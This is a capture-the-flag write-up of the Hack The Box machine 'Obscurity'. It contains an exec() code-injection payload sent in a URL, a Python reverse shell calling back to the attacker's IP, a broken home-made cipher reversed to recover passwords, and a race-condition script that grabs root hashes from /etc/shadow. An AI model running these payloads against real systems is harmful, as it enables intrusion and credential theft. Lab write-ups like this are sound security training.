





# Obscurity Writeup (HTB box)

## AUTHOR: bytevsbyte
Twitter: [@bytevsbyt3](https://twitter.com/bytevsbyt3)\
HTB Profile: [bytevsbyte](https://www.hackthebox.eu/profile/27835)

## TL;DR
This is a straightforward linux machine of 30 points on HackTheBox platform. The box has only two ports open, require a little enumeration of the web service and presents a custom web server. There are a lot of python, and it must be used along the way to get a shell on the box, to bypass some crypto and to understand what happens.

## FULL STORY
Start with the  `nmap -sC -sV -p- -T4 10.10.10.168 | tee nmap.txt` :
```
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 02 Dec 2019 15:31:58
|     Server: BadHTTPServer
|     Last-Modified: Mon, 02 Dec 2019 15:31:58
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     ...
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, not many ports open, so let's look to the web service.
It seems there's not much stuff on it and scrolling the main page to the bottom it seems there's some useful information:



The developer talks about a file _SuperSecureServer.py_, it's important and should be memorized.
As first check it's better to look if there is some basic and guessable virtual host on the web server by changing the _Host_ header in a HTTP request.
It seems, that the server replies the same thing, it's not excluded there is another weird vhost but let's look first other paths.

Let's enumerate dirs and files of the web application.
The main page is an html page so I use it in the extensions list with, php (just because I'm not sure what the backend is really) and py, related to the script named by them.
I always add at least extensions like txt,bak,tar,zip,dat to don't miss any notes, changelog, backup and so on.\
With a scan of directories "`wfuzz -u http://10.10.10.168:8080/FUZZ -w /usr/share/wordlists/dirb/big.txt`", also with a slash appended at the end and with a list of extensions "`wfuzz -u http://10.10.10.168:8080/FUZZ.FUZ2Z -w /usr/share/wordlists/dirb/dig.txt -z list,html,php,py,txt,bak,dat`" I've found.. Nothing! No dir, no file, other than the index.html!

But, I have an important information, the name of the script.
Maybe it's inside a subdirectory of the site (I checked the root and it isn't there). Note that I filter by status code response, in general I prefer to filter on the characters count, but the name of the resource it's reflected in the response.



Ohh god it found it in the __/develop/__ folder.
The dir can't be found without appending the script's name because the server doesn't reply in a different way like with a 403 response code.
By the way grab immediately that python.. I love python. Let's dig into it and look at this piece of code (the full file is [here](./SuperSecureServer.py)).

```(python)
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Ohh an `exec`! Exec like eval is evil! It takes its argument and interprets it as python code.
The script uses it on the URL path location of the HTTP request to format the final string contained in the `info` variable, after an URL-decode.\
There's no check, and there is no doubt, this can be exploited!\
To break into the machine I use the following oneline python reverse shell:
```(python)
import pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.39",55666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
And I encode it in base64 `echo -n '...' | base64 -w0` . Note that the packages socket,subprocess,os are already imported by the script and it can be avoided in the payload. Then I can trigger the command execution by embed the base64 of the above code in the following payload as URL of a GET request:
```
/405.html'%2bexec(__import__("base64").b64decode("PAYLOAD"))%2b'
```

Yes, this is that moment when you g0t a sh3ll!



With a reverse shell as _www-data_ the next target is the __robert__ user.
Inside its directory (word readable) there are some interesting files.
The _check.txt_ is: `Encrypting this file with your key should result in out.txt, make sure your key is correct!` and it's the plaintext of _out.txt_.
The full code of the [SuperSecureCrypt.py is here](./SuperSecureCrypt.py) but I summarize the encryption step as: _p is a character in plaintext and keyChr a char in key  ==>  encrypted += chr((ord(p) + ord(keyChr)) % 255)_\
It's a modular arithmetic sum "`c=p+k mod 255`" and the decryption is "`p=c-k mod 255`".\
The user provides us the ciphertext, the plaintext and not the key. Thanks to the modular arithmetic properties from the decryption expression I have "`k = c - p mod 255`" and this means that if I use the decryption code with the plaintext, instead the key, I obtain the key! (maybe repeted n times)

```
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./out.txt -o /tmp/.text -k "`cat check.txt`"
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file ./out.txt...
Decrypting...
Writing to /tmp/.text...
www-data@obscure:/home/robert$ cat /tmp/.text
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichai
```

Yes! The key it's __alexandrovich__ and now I use this to decrypt the _passwordreminder.txt_ file.

```(bash)
www-data@obscure:/home/robert$ python3 SuperSecureCrypt.py -d -i ./passwordreminder.txt -o /tmp/.text -k "alexandrovich"
...
www-data@obscure:/home/robert$ cat /tmp/.text
SecThruObsFTW

www-data@obscure:/home/robert$ su - robert
Password: SecThruObsFTW

robert@obscure:/home/robert$
```

Ok take the _user.txt_, move to ssh and it's time of root.\
Before a linenum I check the setuid binaries and there's nothing strange, then check my sudoers permissions with `sudo -l`:

```(bash)
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Well, robert can run as root without typing any password the [BetterSSH.py](./BetterSSH.py) script, another python, nice!
The full script is readable [here](./BetterSSH.py), I put below the interesting part:

```(python)
    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)
    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Basically, the script it is an interactive shell that requires the user to authenticate himself with credentials and like the real daemon it uses the users passwords saved on the system.
It checks if the password (hashed) provided by the user match the hash stored on the system by reading the `/etc/shadow` file.
The script saves the hashes  in a file with a random name in the `/tmp/SSH/` directory.

Summary: I can use it as root and it will successfully load the shadow file, it will load the root hash from shadow and it will save it in a temporary file that is readable and in this moment I can steal it.\
The exploit could be made in bash, or in keeping with the box theme, in python!!
This is my [exploit.py](./exploit.py), that tries to exploit the race condition:
```
#!/usr/bin/python

import glob
import time

res = glob.glob('/tmp/SSH/*')
while len(res) == 0:
    time.sleep(0.02)
    res = glob.glob('/tmp/SSH/*')
with open(res[0], 'r') as f:
    data = f.read()
    print(data)
```



By taking the first hash, of the root user, it can be cracked with john and the rockyou.txt wordlist: `john -wordlist=/usr/share/wordlist/rockyou.txt tocrack`. Finally the password of root is __mercedes__ .



r00t d4nce!

Thanks for reading! Thanks to the creator [clubby789](https://www.hackthebox.eu/profile/83743) and to Hack The Box. \
If you like this write up, or just to discuss about it write me on [twitter](https://twitter.com/bytevsbyt3).\
If there is some mistake please tell me!